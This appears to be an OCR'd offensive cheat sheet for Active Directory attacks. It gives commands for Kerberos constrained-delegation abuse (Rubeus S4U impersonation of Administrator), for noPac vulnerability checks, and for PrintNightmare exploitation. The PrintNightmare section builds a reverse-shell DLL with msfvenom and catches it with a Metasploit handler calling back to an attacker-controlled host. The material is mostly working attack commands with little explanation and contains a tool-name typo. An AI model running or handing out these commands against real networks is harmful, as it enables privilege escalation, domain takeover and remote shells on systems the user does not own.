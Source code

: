 Enumerate:
```
Import-Module .\powerview.ps1
Get-DomainUser -TrustedToAuth -Properties distinguishedname, msds-allowedtodelegateto,samaccountname | fl
```

Exploit:
```
.\Rubeus.exe hash /user:test /password:pass123 /domain:pwn.local
(Copy rc4_hmac hash)
.\Rebeus.exe s4u /user:test /rc4:{hash} /impersonateuser:Administrator /domain:pwn.local /msdsspn:cifs/DC01.pwn.local /ptt
```

#### Nopac
Check if MachineAccountQuota > 0
```
netexec ldap 10.10.10.10 -u username -p 'Password123' -d 'domain.local' --kdcHost 10.10.10.10 -M MAQ
StandIn.exe --object ms-DS-MachineAccountQuota=*
```

Check if DC vulnerable:
```
netexec smb 10.10.10.10 -u '' -p '' -d domain -M nopac
```

##### PrintNightmare
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST={ip} LPORT={port} -f dll > rev.dll
msfconsole
use exploit/multi/handler
SET LHOST {ip}
SET LPORT {port}
SET PAYLOAD windows/x64/shell_reverse_tcp
impacket-smbserver share `pwd` -smb2support
python3 CVE-2021-1675.py kkms/{user}:{password}@{domain_ip} '\\{kali_ip}/share/rev.dll'
```
